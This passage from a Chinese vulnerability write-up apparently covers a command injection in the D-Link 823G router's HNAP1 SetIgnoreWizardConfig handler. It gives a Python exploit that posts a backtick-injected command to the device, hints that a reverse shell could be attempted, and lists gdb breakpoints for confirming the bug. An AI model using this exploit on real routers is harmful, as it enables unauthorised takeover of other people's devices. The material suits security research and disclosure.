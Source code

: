 7、构造`exp`保存为`exp_823g.py`-------------可以尝试进行`revers_shell`

~~~python
import requests

ip = "192.168.0.1"

command = "'`echo 12345 > hack.txt`'"
length = len(command)

# headers = requests.utils.defaut_headers()
headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0"
headers["Accept"]='*/*'
headers["Accept-Language"]="en-US,en;q=0.5"
headers["Accept-Encoding"]="gzip, deflate, br"
headers["Content-Type"]="text/xml; charset=utf-8"
headers["SOAPAction"]='"http://purenetworks.com/HNAP1/SetIgnoreWizardConfig"'
headers["Content-Length"]=str(length)

payload=command
r=requests.post('http://'+ip+'/HNAP1',headers=headers,data=payload)
~~~

8、gdb 动调验证

~~~apl
#  链接上 gdb 后设置断点 0x0042383C、0x00423A0C
#  打完断电后 C 运行并发送 exp 观察
~~~

![](/Image/823g-7.png)
